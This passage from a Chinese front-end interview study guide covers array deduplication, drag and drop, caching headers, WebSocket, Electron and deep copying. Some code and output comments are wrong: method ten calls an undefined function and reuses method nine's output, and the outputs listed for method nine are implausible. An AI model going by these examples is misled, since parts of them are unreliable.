  if (!Array.isArray(arr)) {
    console.log('type error!');
    return;
  }
  arr = arr.sort();
  var arrry = [arr[0]];
  for (var i = 1; i < arr.length; i++) {
    if (arr[i] !== arr[i - 1]) {
      arrry.push(arr[i]);
    }
  }
  return arrry;
}
var arr = [
  1,
  1,
  'true',
  'true',
  true,
  true,
  15,
  15,
  false,
  false,
  undefined,
  undefined,
  null,
  null,
  NaN,
  NaN,
  'NaN',
  0,
  0,
  'a',
  'a',
  {},
  {},
];
console.log(unique(arr));
// [0, 1, 15, "NaN", NaN, NaN, {…}, {…}, "a", false, null, true, "true", undefined]      //NaN、{}没有去重
```

> 利用 `sort()` 排序方法，然后根据排序后的结果进行遍历及相邻元素比对

**方法五、利用对象的属性不能相同的特点进行去重**

```js
function unique(arr) {
  if (!Array.isArray(arr)) {
    console.log('type error!');
    return;
  }
  var arrry = [];
  var obj = {};
  for (var i = 0; i < arr.length; i++) {
    if (!obj[arr[i]]) {
      arrry.push(arr[i]);
      obj[arr[i]] = 1;
    } else {
      obj[arr[i]]++;
    }
  }
  return arrry;
}
var arr = [
  1,
  1,
  'true',
  'true',
  true,
  true,
  15,
  15,
  false,
  false,
  undefined,
  undefined,
  null,
  null,
  NaN,
  NaN,
  'NaN',
  0,
  0,
  'a',
  'a',
  {},
  {},
];
console.log(unique(arr));
//[1, "true", 15, false, undefined, null, NaN, 0, "a", {…}]    //两个true直接去掉了，NaN和{}去重
```

**方法六、利用 includes**

```js
function unique(arr) {
  if (!Array.isArray(arr)) {
    console.log('type error!');
    return;
  }
  var array = [];
  for (var i = 0; i < arr.length; i++) {
    if (!array.includes(arr[i])) {
      //includes 检测数组是否有某个值
      array.push(arr[i]);
    }
  }
  return array;
}
var arr = [
  1,
  1,
  'true',
  'true',
  true,
  true,
  15,
  15,
  false,
  false,
  undefined,
  undefined,
  null,
  null,
  NaN,
  NaN,
  'NaN',
  0,
  0,
  'a',
  'a',
  {},
  {},
];
console.log(unique(arr));
//[1, "true", true, 15, false, undefined, null, NaN, "NaN", 0, "a", {…}, {…}]     //{}没有去重
```

**方法七、利用 hasOwnProperty**

```js
function unique(arr) {
  var obj = {};
  return arr.filter(function (item, index, arr) {
    return obj.hasOwnProperty(typeof item + item)
      ? false
      : (obj[typeof item + item] = true);
  });
}
var arr = [
  1,
  1,
  'true',
  'true',
  true,
  true,
  15,
  15,
  false,
  false,
  undefined,
  undefined,
  null,
  null,
  NaN,
  NaN,
  'NaN',
  0,
  0,
  'a',
  'a',
  {},
  {},
];
console.log(unique(arr));
//[1, "true", true, 15, false, undefined, null, NaN, "NaN", 0, "a", {…}]   //所有的都去重了
```

> 利用 `hasOwnProperty` 判断是否存在对象属性

**方法八、利用 filter**

```js
function unique(arr) {
  return arr.filter(function (item, index, arr) {
    //当前元素，在原始数组中的第一个索引==当前索引值，否则返回当前元素
    return arr.indexOf(item, 0) === index;
  });
}
var arr = [
  1,
  1,
  'true',
  'true',
  true,
  true,
  15,
  15,
  false,
  false,
  undefined,
  undefined,
  null,
  null,
  NaN,
  NaN,
  'NaN',
  0,
  0,
  'a',
  'a',
  {},
  {},
];
console.log(unique(arr));
//[1, "true", true, 15, false, undefined, null, "NaN", 0, "a", {…}, {…}]
```

**方法九、利用递归去重**

```js
function unique(arr) {
  var array = arr;
  var len = array.length;

  array.sort(function (a, b) {
    //排序后更加方便去重
    return a - b;
  });

  function loop(index) {
    if (index >= 1) {
      if (array[index] === array[index - 1]) {
        array.splice(index, 1);
      }
      loop(index - 1); //递归loop，然后数组去重
    }
  }
  loop(len - 1);
  return array;
}
var arr = [
  1,
  1,
  'true',
  'true',
  true,
  true,
  15,
  15,
  false,
  false,
  undefined,
  undefined,
  null,
  null,
  NaN,
  NaN,
  'NaN',
  0,
  0,
  'a',
  'a',
  {},
  {},
];
console.log(unique(arr));
//[1, "a", "true", true, 15, false, 1, {…}, null, NaN, NaN, "NaN", 0, "a", {…}, undefined]
```

**方法十、利用 Map 数据结构去重**

```js
function arrayNonRepeatfy(arr) {
  let map = new Map();
  let array = new Array(); // 数组用于返回结果
  for (let i = 0; i < arr.length; i++) {
    if (map.has(arr[i])) {
      // 如果有该key值
      map.set(arr[i], true);
    } else {
      map.set(arr[i], false); // 如果没有该key值
      array.push(arr[i]);
    }
  }
  return array;
}
var arr = [
  1,
  1,
  'true',
  'true',
  true,
  true,
  15,
  15,
  false,
  false,
  undefined,
  undefined,
  null,
  null,
  NaN,
  NaN,
  'NaN',
  0,
  0,
  'a',
  'a',
  {},
  {},
];
console.log(unique(arr));
//[1, "a", "true", true, 15, false, 1, {…}, null, NaN, NaN, "NaN", 0, "a", {…}, undefined]
```

> 创建一个空 `Map` 数据结构，遍历需要去重的数组，把数组的每一个元素作为 `key` 存到 `Map` 中。由于 `Map` 中不会出现相同的 `key` 值，所以最终得到的就是去重后的结果

**方法十一、利用 reduce+includes**

```js
function unique(arr) {
  return arr.reduce(
    (prev, cur) => (prev.includes(cur) ? prev : [...prev, cur]),
    []
  );
}
var arr = [
  1,
  1,
  'true',
  'true',
  true,
  true,
  15,
  15,
  false,
  false,
  undefined,
  undefined,
  null,
  null,
  NaN,
  NaN,
  'NaN',
  0,
  0,
  'a',
  'a',
  {},
  {},
];
console.log(unique(arr));
// [1, "true", true, 15, false, undefined, null, NaN, "NaN", 0, "a", {…}, {…}]
```

**方法十二、\[\...new Set(arr)\]**

```js
[...new Set(arr)];
//代码就是这么少----（其实，严格来说并不算是一种，相对于第一种方法来说只是简化了代码）
```

### 72 （设计题）想实现一个对页面某个节点的拖曳？如何做？（使用原生 JS）

- 给需要拖拽的节点绑定`mousedown`, `mousemove`, `mouseup`事件
- `mousedown`事件触发后，开始拖拽
- `mousemove`时，需要通过`event.clientX`和`clientY`获取拖拽位置，并实时更新位置
- `mouseup`时，拖拽结束
- 需要注意浏览器边界的情况

下面是一个使用原生 JavaScript 实现页面节点拖拽的示例代码：

```js
// 获取需要拖拽的节点
var draggableNode = document.getElementById('draggable');

// 初始化拖拽状态
var isDragging = false;
var offset = {
  x: 0,
  y: 0,
};

// 绑定 mousedown 事件
draggableNode.addEventListener('mousedown', function (event) {
  // 设置拖拽状态为 true
  isDragging = true;

  // 计算鼠标相对于节点的偏移量
  offset.x = event.clientX - draggableNode.offsetLeft;
  offset.y = event.clientY - draggableNode.offsetTop;
});

// 绑定 mousemove 事件
document.addEventListener('mousemove', function (event) {
  // 如果处于拖拽状态
  if (isDragging) {
    // 计算节点的新位置
    var left = event.clientX - offset.x;
    var top = event.clientY - offset.y;

    // 更新节点的位置
    draggableNode.style.left = left + 'px';
    draggableNode.style.top = top + 'px';
  }
});

// 绑定 mouseup 事件
document.addEventListener('mouseup', function () {
  // 设置拖拽状态为 false
  isDragging = false;
});
```

在上面的代码中，首先获取需要拖拽的节点
`draggableNode` ，然后初始化拖拽状态和偏移量。在 `mousedown`

事件中，设置拖拽状态为 `true` ，并计算鼠标相对于节点的偏移量。在
`mousemove`

事件中，如果处于拖拽状态，根据鼠标位置和偏移量计算节点的新位置，并更新节点的
`left` 和 `top` 样式。最后，在 `mouseup` 事件中，设置拖拽状态为
`false` ，表示拖拽结束。

需要注意的是，上述代码只实现了简单的拖拽功能，如果需要考虑边界情况、拖拽限制等，还需要进行适当的处理。

### 73 Javascript 全局函数和全局变量

**全局变量**

- `Infinity` 代表正的无穷大的数值。
- `NaN` 指示某个值是不是数字值。
- `undefined` 指示未定义的值。
- `Date` 表示日期和时间的对象。
- `Math` 包含了数学相关的函数和常量。
- `JSON` 用于解析和序列化 JSON 数据的对象。
- `console` 用于在控制台输出信息的对象。
- `document` 表示当前 HTML 文档的对象。
- `window` 表示浏览器窗口的对象。

**全局函数**

- `decodeURI()` 解码某个编码的 `URI`。
- `decodeURIComponent()` 解码一个编码的 `URI` 组件。
- `encodeURI()` 把字符串编码为 URI。
- `encodeURIComponent()` 把字符串编码为 `URI` 组件。
- `escape()` 对字符串进行编码。
- `eval()` 计算 `JavaScript` 字符串，并把它作为脚本代码来执行。
- `isFinite()` 检查某个值是否为有穷大的数。
- `isNaN()` 检查某个值是否是数字。
- `Number()` 把对象的值转换为数字。
- `parseInt()` 解析一个字符串并返回一个整数。
- `String()` 把对象的值转换为字符串。
- `unescape()` 对由`escape()` 编码的字符串进行解码
- `setTimeout()` 在指定的延迟时间后执行一次函数。
- `setInterval()` 每隔指定的时间间隔重复执行函数。
- `clearTimeout()` 取消使用 `setTimeout()` 创建的延迟执行。
- `clearInterval()` 取消使用 `setInterval()` 创建的重复执行。
- `alert()` 在浏览器中显示一个警告框。
- `confirm()` 在浏览器中显示一个确认框。
- `prompt()` 在浏览器中显示一个提示框，接收用户输入

### 74 使用 js 实现一个持续的动画效果

**定时器思路**

```js
var e = document.getElementById('e');
var flag = true;
var left = 0;
setInterval(() => {
  left == 0 ? (flag = true) : left == 100 ? (flag = false) : '';
  flag ? (e.style.left = ` ${left++}px`) : (e.style.left = ` ${left--}px`);
}, 1000 / 60);
```

**requestAnimationFrame**

```js
//兼容性处理
window.requestAnimFrame = (function () {
  return (
    window.requestAnimationFrame ||
    window.webkitRequestAnimationFrame ||
    window.mozRequestAnimationFrame ||
    function (callback) {
      window.setTimeout(callback, 1000 / 60);
    }
  );
})();

var e = document.getElementById('e');
var flag = true;
var left = 0;

function render() {
  left == 0 ? (flag = true) : left == 100 ? (flag = false) : '';
  flag ? (e.style.left = ` ${left++}px`) : (e.style.left = ` ${left--}px`);
}

(function animloop() {
  render();
  requestAnimFrame(animloop);
})();
```

**使用 css 实现一个持续的动画效果**

```css
animation: mymove 5s infinite;

@keyframes mymove {
  from {
    top: 0px;
  }
  to {
    top: 200px;
  }
}
```

- `animation-name` 规定需要绑定到选择器的 `keyframe`名称。
- `animation-duration` 规定完成动画所花费的时间，以秒或毫秒计。
- `animation-timing-function` 规定动画的速度曲线。
- `animation-delay` 规定在动画开始之前的延迟。
- `animation-iteration-count` 规定动画应该播放的次数。
- `animation-direction` 规定是否应该轮流反向播放动画

### 75 封装一个函数，参数是定时器的时间，.then 执行回调函数

```js
function sleep(time) {
  return new Promise((resolve) => setTimeout(resolve, time));
}
```

```js
// 测试
sleep(3000).then(() => {
  console.log('定时器结束，执行回调函数');
});
```

### 76 怎么判断两个对象相等？

```js
obj = {
  a: 1,
  b: 2,
};
obj2 = {
  a: 1,
  b: 2,
};
obj3 = {
  a: 1,
  b: '2',
};
```

1.  **使用`JSON.stringify()`**：将对象转换为字符串，然后进行比较。这种方式适用于对象中的属性值都是基本数据类型，并且属性的顺序对比较结果无影响。

```js
JSON.stringify(obj) === JSON.stringify(obj2); // true
JSON.stringify(obj) === JSON.stringify(obj3); // false
```

2.  **使用循环遍历**：逐个比较对象的属性值。这种方式适用于对象中的属性值类型复杂，包括嵌套对象或数组。

```js
function deepEqual(obj1, obj2) {
  // 比较基本数据类型的值
  if (obj1 === obj2) {
    return true;
  }

  // 比较对象的属性个数
  if (Object.keys(obj1).length !== Object.keys(obj2).length) {
    return false;
  }

  // 逐个比较对象的属性值
  for (let key in obj1) {
    if (!obj2.hasOwnProperty(key) || !deepEqual(obj1[key], obj2[key])) {
      return false;
    }
  }

  return true;
}

deepEqual(obj, obj2); // true
deepEqual(obj, obj3); // false
```

3.  **使用`lodash`库的`isEqual()`方法**：`lodash`是一个流行的 JavaScript
    工具库，其中的 `isEqual()` 方法可以比较两个对象是否相等，包括深度比较。

首先，需要通过 `npm install lodash` 命令安装 `lodash` 库，然后在代码中引入 `isEqual()` 方法：

```js
const _ = require('lodash');

_.isEqual(obj, obj2); // true
_.isEqual(obj, obj3); // false
```

### 77 项目做过哪些性能优化？

**这是一些常见的性能优化措施，可以在项目中采取来提升网页的加载速度和性能。以下是一些常见的性能优化措施：**

1.  减少 HTTP 请求数：合并和压缩 CSS、JavaScript
    文件，使用雪碧图、字体图标等减少图片请求，减少不必要的资源请求。

2.  减少 DNS 查询：减少使用不同的域名，以减少 DNS 查询次数。
3.  使用 CDN：将静态资源部署到 CDN 上，提供更快的访问速度。
    `<script src="https://cdn.example.com/script.js"></script>`

4.  避免重定向：确保网页没有多余的重定向，减少额外的网络请求。
5.  图片懒加载：延迟加载图片，只有当图片进入可视区域时再进行加载。

```html

<script src="lazyload.js"></script>
```

6.  减少 DOM 元素数量：优化页面结构，减少 DOM 元素的数量，提升渲染性能。
7.  减少 DOM 操作：避免频繁的 DOM 操作，合并操作或使用 DocumentFragment
    进行批量操作。

```js
var container = document.getElementById('container');
var fragment = document.createDocumentFragment();
for (var i = 0; i < 1000; i++) {
  var div = document.createElement('div');
  div.innerText = 'Element ' + i;
  fragment.appendChild(div);
}
container.appendChild(fragment);
```

8.  使用外部 JavaScript 和 CSS：将 JavaScript 和 CSS
    代码外部化，利用浏览器缓存机制提高页面加载速度。

```html
<link rel="stylesheet" href="styles.css" />
<script src="script.js"></script>
```

9.  压缩文件：压缩
    JavaScript、CSS、字体、图片等静态资源文件，减小文件大小。

10. 优化 CSS Sprite：将多个小图标合并为一个大图，并通过 CSS
    进行定位，减少图片请求。

```css
.icon {
  background-image: url('sprite.png');
  background-position: -10px -20px;
  width: 20px;
  height: 20px;
}
```

11. 使用 iconfont：将图标字体作为替代图像，减少图片请求并提高渲染性能。

```html
<i class="iconfont">&#xe001;</i>
```

12. 字体裁剪：只加载页面上实际使用的字体字符，减少字体文件的大小。需要使用字体工具（如`Fontello`、`IcoMoon`等）进行裁剪
13. 多域名分发：将网站的内容划分到不同的域名下，以提高并发请求的能力。需要在项目中配置不同的域名或子域名
14. 减少使用 iframe：避免频繁使用
    iframe，因为它们会增加额外的网络请求和页面加载时间。

15. 避免图片 src 为空：确保 img 标签的 src
    属性不为空，避免浏览器发送不必要的请求。

16. 把样式表放在 link 中：避免使用内联样式，将样式表放在 link
    标签中，使浏览器可以并行加载样式和内容。

17. 把 JavaScript 放在页面底部：将 JavaScript
    脚本放在页面底部，使页面内容可以先加载完毕，提升用户体验。

**webpack 性能优化**

1.  使用生产模式（production
    mode）：在 Webpack 配置中设置 `mode` 为 `production` ，这将启用许多内置的优化功能，例如代码压缩、作用域提升等。

2.  代码分割（Code
    Splitting）：使用 Webpack 的代码分割功能，将代码拆分为多个小块，按需加载，避免打包一个巨大的文件。

3.  懒加载（Lazy Loading）：使用动态导入（Dynamic
    Import）或 `import()` 函数，按需加载模块，在需要时才加载相关代码。

4.  Tree
    Shaking：通过配置 Webpack 的 `optimization` 选项，启用 `sideEffects` 和 `usedExports` ，以消除未使用的代码（dead
    code）。

5.  缓存：使用 Webpack 的`chunkhash`或`contenthash`生成文件名，实现缓存机制，利用浏览器缓存已经加载的文件。
6.  并行处理（Parallel
    Processing）：使用 `thread-loader` 或 `HappyPack` 插件，将 Webpack 的构建过程多线程化，加速构建速度。

7.  使用缩小作用域（Narrowing the
    Scope）：通过配置 Webpack 的 `resolve` 选项，缩小模块解析的范围，减少不必要的查找。

8.  使用外部依赖（External
    Dependencies）：将一些稳定的、不经常修改的库或框架通过 `externals` 配置排除，使用 CDN 引入，减少打包体积。

9.  使用插件和加载器（Plugins and
    Loaders）：选择高效的插件和加载器，合理配置它们的选项，以优化构建过程和资源处理。

10. 使用 Webpack Bundle Analyzer：使用 Webpack Bundle
    Analyzer 工具分析打包后的文件，查找体积较大、冗余或不必要的模块，进行进一步优化。

这些是一些常见的 Webpack 性能优化技巧，可以根据具体项目需求进行选择和配置，以提升构建速度和优化输出结果。

**Vue 的性能优化策略：**

1.  使用 Vue 的生产模式：在构建 Vue 应用时，确保使用生产模式，这将禁用一些开发模式下的警告和调试工具，并启用性能优化的功能。
2.  合理使用`v-if`和`v-show`指令：`v-if`指令用于条件渲染，只在条件为真时渲染元素，而`v-show`指令仅控制元素的显示和隐藏。根据具体情况选择合适的指令，避免频繁的 DOM 操作。
3.  列表性能优化：在渲染大量列表数据时，使用 key 属性来提高性能。`key`属性可以帮助 Vue 跟踪每个节点的标识，减少不必要的`DOM`操作。
4.  懒加载路由：对于大型单页应用，可以考虑使用路由懒加载技术，按需加载路由组件，减少初始加载时间。
5.  异步组件：将应用中的一些复杂组件拆分为异步组件，按需加载，提高初始渲染性能。
6.  避免不必要的重新渲染：使用 Vue 的计算属性和侦听器来优化视图的更新。确保只有在依赖的数据发生变化时才会重新计算和渲染。
7.  合理使用`v-for`和`v-if`：在使用`v-for`和 v`-if`指令时，避免将它们同时用在同一个元素上，这可能导致不必要的计算和渲染。
8.  使用`keep-alive`组件：对于需要缓存的组件，可以使用 Vue 的`keep-alive`组件来缓存组件的状态，避免重复的创建和销毁。
9.  懒加载图片：对于页面中的图片，可以使用懒加载技术，延迟加载图片，提高页面的初始加载速度。
10. 优化网络请求：合理使用 Vue 的异步组件和懒加载技术，减少页面初始加载时的网络请求量。

这些是一些常见的 Vue 项目性能优化策略，根据具体项目的需求和特点进行选择和配置，以提升应用的性能和用户体验。

**React 的性能优化策略：**

1.  使用`React.memo()`或`PureComponent`：对于函数组件，可以使用`React.memo()`函数或继承`PureComponent`类来进行浅比较，避免不必要的重新渲染
2.  使用`key`属性进行列表优化：在渲染列表时，为每个列表项提供唯一的`key`属性，以帮助`React`更有效地更新和重用组件
3.  使用`shouldComponentUpdate`或`React.memo()`进行组件渲染控制：在类组件中，可以通过实现`shouldComponentUpdate`生命周期方法来控制组件的重新渲染。对于函数组件，可以使用`React.memo()`包裹组件并传递自定义的比较函数
4.  懒加载组件：对于较大的组件或页面，可以使用`React.lazy()`和`Suspense`组件进行按需加载，减少初始加载时间
5.  使用虚拟化列表：对于长列表或大型数据集，可以使用虚拟化列表库（如`react-virtualized`或`react-window`）来仅渲染可见部分，减少 DOM 操作和内存占用
6.  使用`Memoization`进行计算的缓存：通过使用`Memoization`技术，可以将计算结果缓存起来，避免重复计算，提高性能。可以使用`Memoization`库（如`reselect`）来实现
7.  使用`React Profiler`进行性能分析：`React Profiler`是 React 提供的性能分析工具，可以帮助定位应用中的性能瓶颈，并进行优化
8.  使用`ESLint`和代码分析工具：通过使用`ESLint`等代码规范工具和静态代码分析工具，可以发现潜在的性能问题和优化机会，并进行相应的调整

### 78 浏览器缓存

> 浏览器缓存分为强缓存和协商缓存。当客户端请求某个资源时，获取缓存的流程如下

- 先根据这个资源的一些 `http header`
  判断它是否命中强缓存，如果命中，则直接从本地获取缓存资源，不会发请求到服务器；

- 当强缓存没有命中时，客户端会发送请求到服务器，服务器通过另一些`request header`验证这个资源是否命中协商缓存，称为`http`再验证，如果命中，服务器将请求返回，但不返回资源，而是告诉客户端直接从缓存中获取，客户端收到返回后就会从缓存中获取资源；
- 强缓存和协商缓存共同之处在于，如果命中缓存，服务器都不会返回资源；
  区别是，强缓存不对发送请求到服务器，但协商缓存会。

- 当协商缓存也没命中时，服务器就会将资源发送回客户端。
- 当 `ctrl+f5`
  强制刷新网页时，直接从服务器加载，跳过强缓存和协商缓存；

- 当 `f5`刷新网页时，跳过强缓存，但是会检查协商缓存；

**强缓存**

- `Expires`（该字段是 `http1.0` 时的规范，值为一个绝对时间的 `GMT`
  格式的时间字符串，代表缓存资源的过期时间）

- `Cache-Control:max-age`（该字段是 `http1.1`的规范，强缓存利用其
  `max-age` 值来判断缓存资源的最大生命周期，它的值单位为秒）

```js
const http = require('http');
const fs = require('fs');
const path = require('path');

http
  .createServer((req, res) => {
    const filePath = path.join(__dirname, 'public', req.url);

    fs.readFile(filePath, (err, data) => {
      if (err) {
        res.writeHead(404);
        res.end('File not found');
        return;
      }

      const stat = fs.statSync(filePath);
      const expires = new Date(Date.now() + 3600000); // 设置缓存过期时间为1小时

      res.setHeader('Expires', expires.toUTCString());
      res.setHeader('Cache-Control', 'max-age=3600');

      res.writeHead(200);
      res.end(data);
    });
  })
  .listen(3000, () => {
    console.log('Server is running on port 3000');
  });
```

**协商缓存**

- `Last-Modified`（值为资源最后更新时间，随服务器 response 返回）
- `If-Modified-Since`（通过比较两个时间来判断资源在两次请求期间是否有过修改，如果没有修改，则命中协商缓存）
- `ETag`（表示资源内容的唯一标识，随服务器`response`返回）
- `If-None-Match`（服务器通过比较请求头部的`If-None-Match`与当前资源的`ETag`是否一致来判断资源是否在两次请求之间有过修改，如果没有修改，则命中协商缓存）

```js
const http = require('http');
const fs = require('fs');
const path = require('path');
const crypto = require('crypto');

http
  .createServer((req, res) => {
    const filePath = path.join(__dirname, 'public', req.url);

    fs.readFile(filePath, (err, data) => {
      if (err) {
        res.writeHead(404);
        res.end('File not found');
        return;
      }

      const stat = fs.statSync(filePath);
      const lastModified = stat.mtime.toUTCString();
      const ifModifiedSince = req.headers['if-modified-since'];

      const fileHash = crypto.createHash('md5').update(data).digest('hex');
      const etag = `"${fileHash}"`;
      const ifNoneMatch = req.headers['if-none-match'];

      if (ifModifiedSince && lastModified === ifModifiedSince) {
        res.writeHead(304); // 文件未修改，返回 304 Not Modified
        res.end();
      } else if (ifNoneMatch && etag === ifNoneMatch) {
        res.writeHead(304); // 文件未修改，返回 304 Not Modified
        res.end();
      } else {
        res.setHeader('Last-Modified', lastModified);
        res.setHeader('ETag', etag);

        res.writeHead(200);
        res.end(data);
      }
    });
  })
  .listen(3000, () => {
    console.log('Server is running on port 3000');
  });
```

在上述示例中，使用了 `crypto` 模块计算文件的 `MD5` 哈希值作为
`ETag` 。在每个请求中，首先检查 `If-Modified-Since`

请求头和文件的最后修改时间，如果相同则返回
`304 Not Modified` 。然后，检查 `If-None-Match` 请求头和文件的
`ETag` ，如果相同则返回 `304 Not Modified` 。如果都不匹配，则设置
`Last-Modified` 和 `ETag` 响应头，并返回文件内容。

这样，通过使用 `Last-Modified` 和 `If-Modified-Since` 以及 `ETag` 和
`If-None-Match` ，可以实现基于协商的缓存机制，减少不必要的数据传输和服务器负载。

### 79 谈谈你对 WebSocket 的理解

> 由于 `http`

> 存在一个明显的弊端（消息只能有客户端推送到服务器端，而服务器端不能主动推送到客户端），导致如果服务器如果有连续的变化，这时只能使用轮询，而轮询效率过低，并不适合。于是
> `WebSocket` 被发明出来

WebSocket 是一种在 Web 应用程序中实现双向通信的协议。与传统的 HTTP
请求-响应模式不同，WebSocket
提供了持久连接，使服务器能够主动向客户端推送数据，而不需要客户端发起请求。以下是我对
WebSocket 的理解：

1.  **双向通信**：WebSocket
    允许客户端和服务器之间建立持久连接，并通过这个连接进行双向通信。客户端和服务器可以随时发送消息给对方，实现实时的数据传输。

2.  **实时性**：相比传统的 HTTP 请求-响应模式，WebSocket
    具有更低的延迟和更高的实时性。服务器可以立即将数据推送给客户端，而不需要等待客户端的请求。

3.  **协议标识符**：WebSocket 使用 `ws://`（非加密）或
    `wss://` （加密）作为协议标识符，用于建立与服务器的连接。

4.  **较少的控制开销**：WebSocket
    的协议控制数据包头部较小，不需要携带完整的头部信息，减少了数据传输的开销。

5.  **支持文本和二进制数据**：WebSocket
    不仅可以传输文本数据，还可以传输二进制数据，使得它适用于各种类型的应用场景。

6.  **支持扩展**：WebSocket
    协议定义了扩展机制，允许用户自定义扩展或实现自定义的子协议，例如压缩算法、认证机制等。

7.  **无跨域问题**：WebSocket
    协议不存在跨域限制，可以轻松地在不同域名下进行通信。

8.  **简单实现**：实现 WebSocket
    相对简单，服务器端和客户端都有相应的库或 API 可以使用，例如 Node.js
    中的 socket.io、ws 等，客户端则可以使用浏览器提供的 WebSocket API。

总的来说，WebSocket 提供了一种高效、实时的双向通信机制，使得 Web
应用程序可以实现实时更新、即时通信等功能。它具有较低的延迟、支持文本和二进制数据传输、无跨域限制等优势，可以广泛应用于在线聊天、实时数据展示、多人协同编辑等领域。

**1. WebSocket 示例代码：**

以下是一个简单的使用 WebSocket 的示例代码，包括客户端和服务器端的实现：

**客户端代码（JavaScript）：**

```js
// 创建 WebSocket 连接
const socket = new WebSocket('ws://localhost:3000');

// 监听连接建立事件
socket.addEventListener('open', () => {
  console.log('Connected to server');

  // 发送消息给服务器
  socket.send('Hello server!');
});

// 监听接收到消息事件
socket.addEventListener('message', (event) => {
  const message = event.data;
  console.log('Received message:', message);
});

// 监听连接关闭事件
socket.addEventListener('close', () => {
  console.log('Disconnected from server');
});
```

**服务器端代码（Node.js）：**

```js
const WebSocket = require('ws');

// 创建 WebSocket 服务器
const wss = new WebSocket.Server({
  port: 3000,
});

// 监听连接建立事件
wss.on('connection', (socket) => {
  console.log('Client connected');

  // 监听接收到消息事件
  socket.on('message', (message) => {
    console.log('Received message:', message);

    // 发送消息给客户端
    socket.send('Hello client!');
  });

  // 监听连接关闭事件
  socket.on('close', () => {
    console.log('Client disconnected');
  });
});
```

> 上述示例中，客户端通过 `new WebSocket(url)` 创建一个 WebSocket
> 连接，监听连接建立、接收到消息和连接关闭等事件，并通过 `send()`

> 方法发送消息给服务器。服务器端使用 `ws` 模块创建 WebSocket
> 服务器，监听连接建立、接收到消息和连接关闭等事件，并通过 `send()`

> 方法发送消息给客户端。

**2. socket.io 示例代码：**

以下是一个使用 socket.io 的示例代码，包括客户端和服务器端的实现：

**客户端代码（JavaScript）：**

```js
// 引入 socket.io 客户端库
import io from 'socket.io-client';

// 连接到服务器
const socket = io('http://localhost:3000');

// 监听连接建立事件
socket.on('connect', () => {
  console.log('Connected to server');

  // 发送消息给服务器
  socket.emit('message', 'Hello server!');
});

// 监听接收到消息事件
socket.on('message', (message) => {
  console.log('Received message:', message);
});

// 监听连接关闭事件
socket.on('disconnect', () => {
  console.log('Disconnected from server');
});
```

**服务器端代码（Node.js）：**

```js
const express = require('express');
const app = express();
const http = require('http').createServer(app);
const io = require('socket.io')(http);

// 监听连接建立事件
io.on('connection', (socket) => {
  console.log('Client connected');

  // 监听接收到消息事件
  socket.on('message', (message) => {
    console.log('Received message:', message);

    // 发送消息给客户端
    socket.emit('message', 'Hello client!');
  });

  // 监听连接关闭事件
  socket.on('disconnect', () => {
    console.log('Client disconnected');
  });
});

// 启动 HTTP 服务器
http.listen(3000, () => {
  console.log('Server 已经在本地的 3000 端口启动');
});
```

> 上述示例中，客户端通过 `import io from 'socket.io-client'` 引入
> socket.io
> 客户端库，连接到服务器并监听连接建立、接收到消息和连接关闭等事件。服务器端使用
> Express 创建一个 HTTP 服务器，通过 `socket.io` 模块创建 socket.io
> 实例，并监听连接建立、接收到消息和连接关闭等事件，并通过 `emit()`

> 方法发送消息给客户端。

### 80 尽可能多的说出你对 Electron 的理解

> Electron 是一个用于构建跨平台桌面应用程序的开源框架。它将 Chromium
> 嵌入到一个 Node.js 运行时环境中，使开发者可以使用 Web 技术（HTML、CSS
> 和 JavaScript）来构建桌面应用程序。

以下是我对 Electron 的理解：

1.  **跨平台开发**：Electron 提供了一种使用 Web
    技术来构建跨平台桌面应用程序的方式。开发者可以使用 HTML、CSS 和
    JavaScript 来构建应用程序界面，而不必关心不同操作系统的差异。

2.  **基于 Chromium 和 Node.js**：Electron 是在 Chromium
    渲染引擎的基础上构建的，因此可以充分利用 Chrome
    提供的强大功能和先进的 Web 标准支持。同时，它还集成了
    Node.js，使开发者可以使用 JavaScript
    访问底层系统资源和执行本地操作。

3.  **原生体验**：Electron
    应用程序可以获得与本机桌面应用程序相似的用户体验，包括菜单、对话框、系统托盘、通知等。通过使用
    Electron 的 API，开发者可以轻松地创建原生风格的界面和交互。

4.  **丰富的生态系统**：Electron
    拥有庞大的开发者社区和丰富的插件生态系统，可以方便地集成第三方库和工具，以扩展应用程序的功能和性能。

5.  **自动更新**：Electron
    提供了自动更新机制，使得应用程序能够自动下载和安装最新的版本，提供给用户更好的体验和功能。

6.  **调试和开发工具**：Electron 集成了开发者工具，包括 Chrome
    开发者工具和 Node.js 调试器，方便开发者进行调试和性能优化。

7.  **广泛的应用领域**：Electron
    被广泛应用于构建桌面应用程序，包括编辑器、IDE、聊天工具、音乐播放器、视频播放器、游戏等。

> 总的来说，Electron 提供了一种便捷的方式来使用 Web
> 技术构建跨平台桌面应用程序，并且具有与本机应用程序相似的用户体验和功能。它融合了
> Chromium 和 Node.js
> 的强大特性，拥有活跃的社区和丰富的插件生态系统，使得开发者能够高效地构建功能丰富、易于维护的桌面应用程序。

### 81 深浅拷贝

**浅拷贝**

1.  使用 `Object.assign()` 方法

```js
let obj1 = {
  a: 1,
  b: 2,
};
let obj2 = Object.assign({}, obj1);
console.log(obj2); // { a: 1, b: 2 }
```

2.  使用展开运算符

```js
let obj1 = {
  a: 1,
  b: 2,
};
let obj2 = {
  ...obj1,
};
console.log(obj2); // { a: 1, b: 2 }
```

**深拷贝**

**1. 使用递归实现深拷贝函数**

```js
function deepClone(obj) {
  if (obj === null || typeof obj !== 'object') {
    return obj;
  }

  let clone = Array.isArray(obj) ? [] : {};

  for (let key in obj) {
    if (obj.hasOwnProperty(key)) {
      clone[key] = deepClone(obj[key]);
    }
  }

  return clone;
}

let obj1 = {
  a: 1,
  b: {
    c: 2,
  },
};

let obj2 = deepClone(obj1);
obj2.b.c = 3;

console.log(obj1.b.c); // 2
console.log(obj2.b.c); // 3
```

**2. 使用第三方库 `lodash` 的 `cloneDeep()` 方法**

```js
const _ = require('lodash');

let obj1 = {
  a: 1,
  b: {
    c: 2,
  },
};

let obj2 = _.cloneDeep(obj1);
obj2.b.c = 3;

console.log(obj1.b.c); // 2
console.log(obj2.b.c); // 3
```

**3. 使用 `JSON.parse(JSON.stringify())` 实现深拷贝**

```js
let obj1 = {
  a: 1,
  b: {
    c: 2,
  },
};

let obj2 = JSON.parse(JSON.stringify(obj1));
obj2.b.c = 3;

console.log(obj1.b.c); // 2
console.log(obj2.b.c); // 3
```

**该方法也是有局限性的**

- 会忽略 `undefined`
- 不能序列化函数
- 不能解决循环引用的对象

**`JSON.stringify()`方法在实现深拷贝时有一些局限性，包括：**

1.  无法处理函数：`JSON.stringify()`
    方法在序列化对象时会忽略函数属性，因为函数不符合 JSON
